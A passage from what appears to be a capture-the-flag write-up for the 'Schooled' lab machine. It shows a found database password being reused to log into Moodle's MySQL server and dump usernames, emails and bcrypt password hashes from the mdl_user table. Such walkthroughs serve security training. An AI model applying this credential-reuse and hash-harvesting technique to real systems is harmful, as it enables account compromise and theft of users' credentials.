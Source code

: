 I tried to `su` to both users with the password “PlaybookMaster2020” without success.

#### Database

`mysql` is not in the path but installed. I’ll connect using the creds from above:

```

[www@Schooled /]$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 moodle
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1025
Server version: 8.0.23 Source distribution

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

moodle@localhost [moodle]>

```

Moodle creates a lot of tables, but I’m interesting in any that might contain passwords, like `mdl_user`. The table has a ton of columns, but I really just want username, email, and password:

```

moodle@localhost [moodle]> select username, email, password from mdl_user;
+-------------------+----------------------------------------+--------------------------------------------------------------+
| username          | email                                  | password                                                     |
+-------------------+----------------------------------------+--------------------------------------------------------------+
| guest             | root@localhost                         | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |
| admin             | jamie@staff.schooled.htb               | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |
| bell_oliver89     | bell_oliver89@student.schooled.htb     | $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK |
| orchid_sheila89   | orchid_sheila89@student.schooled.htb   | $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC |
| chard_ellzabeth89 | chard_elizabeth89@student.schooled.htb | $2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC |
| morris_jake89     | morris_jake89@student.schooled.htb     | $2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy |
| heel_james89      | heel_james89@student.schooled.htb      | $2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim |
| nash_michael89    | nash_michael89@student.schooled.htb    | $2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu |
| singh_rakesh89    | singh_rakesh89@student.schooled.htb    | $2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu |
| taint_marcus89    | taint_marcus89@student.schooled.htb    | $2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa |
| walls_shaun89     | walls_shaun89@student.schooled.htb     | $2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga |
| smith_john89      | smith_john89@student.schooled.htb      | $2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em |
| white_jack89      | white_jack89@student.schooled.htb      | $2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK |
| travis_carl89     | travis_carl89@student.schooled.htb     | $2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S |
```